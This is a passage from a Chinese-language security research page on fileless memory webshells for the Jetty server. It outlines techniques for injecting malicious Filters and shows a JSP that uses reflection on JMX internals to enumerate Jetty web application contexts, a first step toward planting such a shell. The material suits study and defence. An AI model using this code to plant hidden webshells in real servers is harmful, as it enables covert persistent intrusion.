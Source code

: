 目录
- [Jetty部分源码剖析](https://github.com/pen4uin/JavaSec/blob/main/fileless-shell/jetty/%E5%85%B3%E4%BA%8EJetty.md)
- 无文件马
  - WebAppContext
    - 通过Mbean获取Context
    - 通过currentThread获取Context
  - Filter
    - 静态添加 Filter(基于web.xml)
    - 动态添加 Filter(基于addFilter API)
    - 适配Jetty v6.x/7.x/8.x/9.x

## 无文件马

### WebAppContext

#### 通过Mbean获取Context

- 参考
  - https://paper.seebug.org/1441/#2mbeancontext
  - https://www.coder.work/article/5540502

getConext.jsp

```java
<%
    try{
        JmxMBeanServer jmxMBeanServer = (JmxMBeanServer) ManagementFactory.getPlatformMBeanServer();
        // 获取mbsInterceptor
        Field field = Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
        field.setAccessible(true);
        Object mbsInterceptor = field.get(jmxMBeanServer);
        // 获取repository
        field = Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
        field.setAccessible(true);
        Repository repository = (Repository) field.get(mbsInterceptor);
        /**
         * ObjectName 表示一个Mbean的对象名称
         * repository.query()
         *     选择并检索名称与指定对象名称模式匹配并与指定查询表达式匹配的mbean列表(可选)。
         *         参数:
         *             pattern——要检索的MBean的名称——可以是一个特定的对象，也可以是允许选择多个MBean的名称模式。
         *             query -选择对象时要应用的查询表达式-当存储库服务不支持筛选时，此参数将被忽略。
         *             返回:
         *                 选中的mbean列表。集合中可能返回0个、一个或多个mbean。
         */
        Set<NamedObject> namedObjectSet = repository.query(new ObjectName("org.eclipse.jetty.webapp:type=webappcontext,*"), null);
        for (NamedObject namedObject : namedObjectSet) {
            out.write(String.valueOf(namedObject));
        }

    }catch (Exception e){
        e.printStackTrace();
    }

%>
```
